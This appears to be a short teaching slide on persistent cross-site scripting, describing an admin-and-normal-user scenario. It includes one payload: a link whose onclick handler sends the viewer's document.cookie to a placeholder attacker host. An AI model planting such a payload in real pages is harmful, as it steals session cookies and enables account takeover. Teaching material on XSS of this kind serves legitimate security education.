

# Examples for Persistent XSS Attack
There are two types of users: “Admin” and “Normal” user.
When “Admin” log-in, he can see the list of usernames.
When “Normal” users log-in, they can only update their display name.
<a href=# onclick=\"document.location=\'http://not-real-xssattackexamples.com/xss.php?c=\'+escape\(document.cookie\)\;\">My Name</a>